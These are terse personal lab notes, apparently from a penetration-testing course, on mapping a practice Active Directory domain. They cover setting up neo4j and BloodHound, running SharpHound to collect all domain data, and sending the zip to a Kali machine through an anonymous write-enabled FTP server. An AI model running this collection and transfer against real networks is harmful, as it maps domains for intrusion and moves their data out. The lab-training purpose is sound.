

tool that downloads data of AD when we get access to an AD and represents that in the form of graphs
#neo4j console

go to this url
initial login
username:neo4j
passwd:neo4j
new passwd:Password
#bloodhound(in new shell)

checkmark means we are connected to DB
start both windows machine and 2019 server
in windows machine
#. .\SharpHound.ps1


#Invoke-Bloodhound -CollectionMethod All -Domain MARVEL.local -ZipFileName file.zip
to transfer zip file for windows to kali
set up ftp server in kali
#python -m pyftpdlib -p 21 -w(this allows login without a password)
-p:port(default is 2121)
-w:grants write access for logged in user(default is read only)
on windows
#ftp ip.of.kali.here
username:anonymouse
when asked password just press enter
#bin
#put theFileName.extension
on kali,if we want to setup a password for ftp login do
#python -m pyftpdlib -p 21 -w -P password
upload file.zip in bloodhound